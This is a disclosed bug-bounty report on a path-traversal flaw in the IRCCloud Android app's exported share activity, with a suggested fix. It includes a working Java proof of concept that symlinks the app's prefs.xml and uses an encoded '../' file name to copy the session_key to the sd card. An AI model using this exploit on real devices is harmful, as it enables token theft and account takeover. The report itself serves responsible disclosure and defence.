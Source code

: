 # [IRCCloud Android] Theft of arbitrary files leading to token leakage

## Report Details
- **Report ID**: 288955
- **URL**: https://hackerone.com/reports/288955
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-11-09T20:52:38.854Z
- **Disclosed**: 2017-11-15T15:23:32.609Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: irccloud

## Vulnerability Information
#Bug description#

Hi, I'd like to report a vulnerability which allows to theft arbitrary protected files (and as a result takeover account, because all tokens will be leaked), similar to my bug reported to Harvest https://hackerone.com/reports/161710

This one is really tricky, passed two days to realize how to exploit that ;)

Activity ``` com.irccloud.android.activity.ShareChooserActivity ``` is exported and designed to allow file sharing from third-party apps to IRC Cloud
```xml
        <activity android:excludeFromRecents="true" android:name="com.irccloud.android.activity.ShareChooserActivity" android:theme="@style/dawnDialog">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.SEND"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="application/*"/>
                <data android:mimeType="audio/*"/>
                <data android:mimeType="image/*"/>
                <data android:mimeType="text/*"/>
                <data android:mimeType="video/*"/>
            </intent-filter>
            <meta-data android:name="android.service.chooser.chooser_target_service" android:value=".ConversationChooserTargetService"/>
        </activity>
```

```java
    protected void onResume() {
        //...
        if (getSharedPreferences("prefs", 0).getString("session_key", "").length() > 0) {
            	//...
                this.mUri = (Uri) getIntent().getParcelableExtra("android.intent.extra.STREAM"); // getting attacker provided uri
                if (this.mUri != null) {
                    this.mUri = MainActivity.makeTempCopy(this.mUri, this); // copying file from this uri to /data/data/com.irccloud.android/cache/
                }
```

```java
    public static Uri makeTempCopy(Uri fileUri, Context context, String original_filename) { // original_filename = mUri.getLastPathSegment()
        //...
        try {
            Uri out = Uri.fromFile(new File(context.getCacheDir(), original_filename));
            Log.d("IRCCloud", "Copying file to " + out);
            InputStream is = IRCCloudApplication.getInstance().getApplicationContext().getContentResolver().openInputStream(fileUri);
            OutputStream os = IRCCloudApplication.getInstance().getApplicationContext().getContentResolver().openOutputStream(out);
            byte[] buffer = new byte[8192];
            while (true) {
                int len = is.read(buffer);
                if (len != -1) {
                    os.write(buffer, 0, len);
                //...
```

It means that the specified file will be copied to ``` /data/data/com.irccloud.android/cache/ ``` with original name. Original name is ``` getLastPathSegment() ``` from the specified uri. But there is one thing: this method decodes last path segment. This is my PoC:
```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // path to sdcard (encoded relative path from "/data/data/com.irccloud.android/cache/")
        String zhk = "..%2F..%2F..%2F..%2Fsdcard%2Fprefs.xml";
        // absolute path to a file, pointing to sumlink
        String appDir = "/data/data/" + getPackageName();
        String deepPath = appDir + "/x/x/x/x/";

        new File(deepPath).mkdirs();

        String sumlink = deepPath + zhk;
        try {
            File sumlinkFile = new File(Uri.decode(sumlink)).getCanonicalFile();
            sumlinkFile.getParentFile().mkdirs();

            Runtime.getRuntime().exec("ln -s /data/data/com.irccloud.android/shared_prefs/prefs.xml "
                    + sumlinkFile.getAbsolutePath()).waitFor();
        }
        catch(Exception e) {
            // should be never thrown
            throw new RuntimeException(e);
        }
        grant777PermissionToEverything(new File(appDir));

        Uri uri = Uri.parse("file://" + sumlink); // file:///data/data/com.attacker/x/x/x/x/..%2F..%2F..%2F..%2Fsdcard%2Fprefs.xml

        Intent intent = new Intent();
        intent.setClassName("com.irccloud.android", "com.irccloud.android.activity.ShareChooserActivity");
        intent.putExtra("android.intent.extra.STREAM", uri);
        startActivity(intent);
    }

    private void grant777PermissionToEverything(File dist) {
        dist.setReadable(true, false);
        dist.setWritable(true, false);
        dist.setExecutable(true, false);
        if(dist.isDirectory()) {
            for(File child : dist.listFiles()) {
                grant777PermissionToEverything(child);
            }
        }
    }
```

Result:
{F238129}
{F238128}

It works so:
1) I start your activity with the following uri: ``` file:///data/data/com.attacker/x/x/x/x/..%2F..%2F..%2F..%2Fsdcard%2Fprefs.xml ```
2) Canonical file from #2 (``` /data/data/com.attacker/sdcard/prefs.xml ```) is a symlink file pointing to the file I want to theft (``` /data/data/com.irccloud.android/shared_prefs/prefs.xml ```)
3) In your app ``` original_filename ``` is equal to ``` ../../../../sdcard/prefs.xml ```
4) 
```java
InputStream is = IRCCloudApplication.getInstance().getApplicationContext().getContentResolver().openInputStream(fileUri);
```

But ``` openInputStream(...) ``` automatically decodes the specified uri. So it will access my symlink file which points to ``` /data/data/com.irccloud.android/shared_prefs/prefs.xml ```
5) 
```java
Uri out = Uri.fromFile(new File(context.getCacheDir(), original_filename));
OutputStream os = IRCCloudApplication.getInstance().getApplicationContext().getContentResolver().openOutputStream(out);
```
It is equal to 
```java
Uri out = Uri.fromFile(new File("/data/data/com.irccloud.android/cache/", "../../../../sdcard/prefs.xml"));
```

So it simply outputs the specified file to Sd card.

#How to fix#
Just specify e.g. current timestamp as a file name, but don't use provided by attacker. In current implementation attacker can force IRC Cloud app to copy arbitrary files to arbitrary directories. File ``` /data/data/com.irccloud.android/shared_prefs/prefs.xml ``` contains ``` session_key ```. In normal situation this file is accessible only to IRC Cloud app. But when it's copied to e.g. Sd card it will be accessible to everyone. But Sd card is only simple example. Attacker can also force IRC Cloud app to copy a file to its internal directory.

BTW this vulnerability also allows to overwrite arbitrary files. So attacker also can replace any your protected files and substitute for example history.

## Attachments
- Screenshot_2017-11-09-23-21-29.png
- Screenshot_2017-11-09-23-21-21.png
